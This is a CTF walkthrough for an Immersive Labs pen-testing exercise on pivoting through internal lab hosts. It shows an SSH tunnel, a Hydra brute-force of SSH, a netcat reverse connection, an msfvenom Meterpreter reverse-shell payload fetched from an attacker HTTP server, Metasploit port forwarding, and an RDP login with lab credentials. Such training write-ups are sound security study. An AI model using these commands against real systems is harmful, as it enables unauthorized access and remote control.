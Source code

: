 ```yaml
---
date: 2025-03-01
categories: [CTF, ImmersiveLabs]
title: "IML - Infrastructure Pen Testing: Ep.7 — Pivoting"
tags: ['hydra', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Infrastructure Pen Testing Ep - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Infrastructure Pen Testing: Ep.7 — Pivoting


![image1](../resources/5c9a57ca981f4eecab592d75a051e28d.png)

![image2](../resources/b70f40d5e07c44ee85804e505797152c.png)

Pivot 1: **root : PwnedR00t**

Target 2: **Administrator : Adm1nPass**

1.) Setup SSH Tunnel:

```bash
ssh -L 2222:10.102.173.65:22 root@10.102.16.36 -v

```

![image3](../resources/8c001310ce5342bbbbee1b72afd4cfbf.png)

2.) Run Hydra (It does take a few minutes):

```bash
hydra -l root -P /usr/share/wordlists/metasploit/burnett_top_1024.txt 127.0.0.1 ssh -s 2222

```

![image4](../resources/c4f91f3878144690ad885688efb79eb4.png)

3.)
- **<u>Target1:</u>**
**root : michael1**

- SSH into Target1 (with the portforward still running):

```bash
ssh root@localhost -p 2222

```

![image5](../resources/0e95f194048048259275d46e17513a25.png)

IP's changed

![image6](../resources/51ec4caab6944c13bc33e465e2653707.png)

4.)Extra challenge: Try sending a reverse shell from the first target back to the Kali machine:

- Set up reverse port forward (on the pivot machine)

```bash
portfwd add -R -L <KALI IP> -l 6666 -r 7777

```
or something like:

```bash
ssh -R <Windows 7 Internal Network IP>:<Windows 7 Unused Port>:<Kali Linux Local IP>:<Kali Linux reverse shell listening port> <username>@<Windows 7 IP>

```
- Start listener locally on port 6666 (on Kali)

- On target 1, netcat to pivot machine on 7777 (or use a msfvenom payload with port 7777)

```bash
nc 10.102.32.119 7777

```
5.)Use the second pivot host's port 80 service to get a reverse shell:

- Go to  `http:// 10.102.43.238`

- Create msfvenom payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.184.68 LPORT=9000 -f elf -o reverse.elf

```
- Setup python server

- Run:
http://10.102.184.68:8000/reverse.elf


![image7](../resources/b3f7337ae52244a28649af39294a54d0.png)

6.)Using Metasploit's port forwarder, RDP into the second target:

**portfwd add -l \<PORT_ON_LOCAL_MACHINE\> -p \<REMOTE_PORT\> -r \<DESTINATION_HOST\>**

```bash
portfwd add -l 5555 -p 3389 -r 10.102.108.144
```

![image8](../resources/cfa5ddc2e95545febf940bbbf6492b58.png)

```bash
xfreerdp /u:Administrator /v:127.0.0.1:5555 /p:Adm1nPass
```

![image9](../resources/01f260de1db541d2a3217cd377877f93.png)
